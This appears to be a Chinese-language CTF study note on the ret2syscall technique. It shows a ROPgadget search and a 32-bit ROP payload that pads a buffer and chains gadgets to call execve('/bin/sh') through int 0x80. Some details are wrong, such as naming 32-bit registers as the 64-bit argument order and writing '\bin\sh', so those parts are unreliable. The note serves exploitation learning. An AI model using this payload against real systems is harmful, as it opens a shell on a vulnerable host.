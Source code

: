 我们的 `ret2systemcall` 中，我们需要根据我们程序是 64 位位还是 32 位来进行对应的操作。

payload=修改寄存器+执行中断指令

## 修改寄存器部分
我们首先可以先通过我们 Linux 中带有的 `ropgadget` 来来找到我们所需要的参数，在我们的 64 位中，我们的参数会依次存放在我们的  ``ebx，ecx，edx，esi，edi ebp``。当中。

这里，我们需要用我们的 ropgadget 当中，我们才能获得我们的答案。我们可以利用我们的
```
ropgadget -binary ret2shellcode --only "pop|ret"
```

来获得我们的对应的数据，并且把我们的数据存储到对应的文本当中。
![[Pasted image 20240114172048.png]]

之后，我们还需要找到我们的 `\bin\sh` 的参数，这里，我们还是通过我们的 ROPgadget 来搜索。
![[Pasted image 20240114172933.png]]
## 执行程序
### 1. 假设我们存在 int 指令 (构造 ROP 链)
我们如果搜索后发现，我们的函数中存在我们的 int 指令，并且这个对应的参数是 `0xb` 那么我们就可以直接通过我们如下所示的 payload 来构造出我们最后的答案：
```
pop_eax=0x080bb196
pop_ebx_ecx_edx=0x0806e9b0
bin_sh=0x80BE408
int_0x80=0x08049421
payload=b'a'*112+p32(pop_eax)+p32(0xb)+p32(pop_ebx_ecx_edx)+p32(0)+p32(0)+p32(bin_sh)+p32(int_0x80)
```



